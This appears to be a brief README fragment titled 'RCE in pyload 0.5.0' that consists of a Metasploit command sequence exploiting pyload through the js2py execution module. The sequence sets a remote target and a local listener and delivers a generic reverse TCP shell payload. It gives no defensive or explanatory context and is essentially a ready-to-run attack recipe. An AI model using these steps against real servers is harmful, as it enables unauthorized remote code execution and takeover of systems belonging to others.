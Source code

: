 ## RCE in pyload 0.5.0

msfconsole > linux/http/pyload_js2py_exec > set Target 2 > set rhosts <server ip> > set lhost <localhost ip> > set payload generic/shell_reverse_tcp > run